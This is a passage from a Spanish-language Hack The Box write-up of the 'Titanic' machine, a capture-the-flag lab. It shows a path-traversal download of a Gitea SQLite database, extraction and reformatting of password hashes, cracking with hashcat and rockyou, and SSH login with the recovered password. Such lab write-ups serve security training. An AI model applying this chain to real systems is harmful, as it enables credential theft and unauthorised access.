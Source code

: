 El valor de `PATH` dentro del bloque `[database]` indica que la base de datos de Gitea reside en `/home/developer/gitea/data/gitea/gitea.db`. Asi que, descargo el archivo directamente.

```terminal
/home/kali/Documents/htb/machines/titanic:-$ wget http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db -O gitea.db
```

Inspecciono las credenciales almacenadas y extraigo los campos name, salt y passwd de la tabla user. Y convierto los valores al formato PBKDF2-HMAC-SHA256.

```terminal
/home/kali/Documents/htb/machines/titanic:-$ sqlite3 gitea.db "select name,salt,passwd from user" 
administrator|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56

/home/kali/Documents/htb/machines/titanic:-$ sqlite3 gitea.db "select name,salt,passwd from user" | while read data; do name=$(echo $data | cut -d'|' -f1); salt=$(echo $data | cut -d '|' -f2 | xxd -r -p | base64); digest=$(echo $data | cut -d '|' -f3 | xxd -r -p | base64); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee hashes.txt
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Una vez generado con hashes validos, ejecuto el ataque de diccionario.

```terminal
/home/kali/Documents/htb/machines/titanic:-$ hashcat --show hashes.txt --username
    # | Name                                            | Category
======+=================================================+==============================
10900 | PBKDF2-HMAC-SHA256                              | Generic KDF

/home/kali/Documents/htb/machines/titanic:-$ hashcat hashes.txt --username /usr/share/wordlists/rockyou.txt
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

Con la contraseña recuperada `25282528`, inicio sesión por SSH como el usuario `developer`.

```terminal
/home/kali/Documents/htb/machines/titanic:-$ ssh developer@titanic.htb
developer@titanic.htb's password: 25282528

developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)

developer@titanic:~$ cat user.txt
```

---
## Privilege Escalation
